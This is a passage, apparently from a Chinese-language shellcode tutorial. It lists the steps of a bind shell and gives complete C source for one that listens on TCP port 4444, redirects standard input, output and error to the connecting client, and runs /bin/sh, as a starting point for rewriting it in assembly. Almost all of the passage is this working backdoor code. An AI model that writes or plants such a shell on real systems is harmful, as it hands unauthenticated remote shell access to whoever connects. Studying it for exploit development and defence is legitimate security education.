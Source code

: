 为了将bind shell改写成汇编语言，我们首先需要熟悉bind shell的工作流程：

    1、创建新的TCP socket。  
    2、将该socket绑定到某个本地端口上。  
    3、监听连接。  
    4、接受连接。  
    5、将STDIN、STDOUT以及STDERR重定向至新创建的客户端socket。  
    6、启动shell。

这个过程对应的C代码如下所示，后面我们会将该代码转化为相应的汇编代码：
```
#include <stdio.h> 
#include <sys/types.h>  
#include <sys/socket.h> 
#include <netinet/in.h> 

int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 

struct sockaddr_in hostaddr;            // server aka listen address

int main() 
{ 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 

    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order

    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    // Listen for incoming connections 
    listen(host_sockid, 2); 

    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 

    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 

    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 

    return 0; 
}
```
